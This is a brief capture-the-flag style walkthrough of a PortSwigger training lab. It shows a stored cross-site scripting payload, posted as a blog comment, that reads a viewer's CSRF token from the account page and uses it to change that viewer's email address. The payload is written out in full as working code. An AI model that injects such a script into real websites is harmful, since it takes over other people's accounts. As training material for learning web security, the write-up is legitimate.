



>>> platform -> portswigger
>>>> Target -> Lab: Exploiting XSS to bypass CSRF defenses

----
- **Where is Vuln**:stored XSS vulnerability in the blog comments function
- **Goal**:To solve the lab, exploit the vulnerability to steal a CSRF token, which you can then use to change the email address of someone who views the blog post comments.

----


### Steps:
1. open the lab
2. Excute this code
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
- 
- 

3. solve the lab...
